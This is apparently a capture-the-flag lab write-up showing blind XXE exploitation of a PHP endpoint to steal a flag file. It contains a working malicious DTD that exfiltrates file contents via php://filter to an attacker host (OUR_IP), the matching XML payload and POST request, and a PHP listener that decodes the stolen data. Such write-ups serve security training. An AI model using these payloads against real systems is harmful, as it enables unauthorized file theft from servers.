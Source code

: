 # 🕳️ Blind XXE Data Exfiltration
## 🎯 Objective
Exploit a blind XXE vulnerability on the /blind endpoint to read the contents of the file /327a6c4304ad5938eaf0efb6cc3e53dc.php and extract the flag using Out-of-Band (OOB) exfiltration via HTTP.
## 🧠 Attack Overview
Since this is a blind vulnerability:
- The server does not reflect the content of parsed XML entities.
- No PHP errors or direct feedback is shown.
To bypass this, I leveraged an external DTD that:
- Reads the file content using a PHP filter.
- Encodes it in base64.
- Sends it back to my HTTP listener as part of a query parameter.

## 🛠 Setup – Listener for OOB Exfiltration
First, I created a simple PHP script (`index.php`) that receives the base64 string and decodes it:
```bash
<?php
if (isset($_GET['content'])) {
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
I launched a local web server to serve the malicious DTD and receive the incoming request:
```bash
php -S 0.0.0.0:8000
```
## 📦 Malicious DTD File (xxe.dtd)
This DTD was hosted on my machine and instructs the target to:
- Read the file using php://filter with base64 encoding.
- Send the encoded content to my server via HTTP:
```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
_(Note: `OUR_IP` is replaced with my tun0 IP.)_

## 📤 Exploit Payload (XML)
The final malicious XML that I submitted to `/blind/submitDetails.php` was:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
![image](https://github.com/user-attachments/assets/e88fc120-ab75-4586-8a96-9cdb5db3f478)

## 📬 Sending the Exploit
I sent the XML payload using Burp Suite or curl:
```bash
POST /blind/submitDetails.php HTTP/1.1
Host: TARGET_IP
Content-Type: application/xml
Content-Length: [length]

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
## 📥 Retrieving the Flag
My HTTP listener received the base64-encoded content as:

/?content=PD9waHAgZmxhZyA9ICJ7RkxBR30iOyBlY2hvICRmbGFnIDs/Pg==

![image](https://github.com/user-attachments/assets/9a99003e-9ca0-4140-bc0b-957f0fab4bc6)

## ✅ Conclusion
This exercise demonstrated a fully blind XXE exploitation using an Out-of-Band HTTP-based exfiltration technique. Even when the application does not reflect any response, it is possible to exfiltrate sensitive data via DNS or HTTP channels with proper entity chaining and external DTD references.
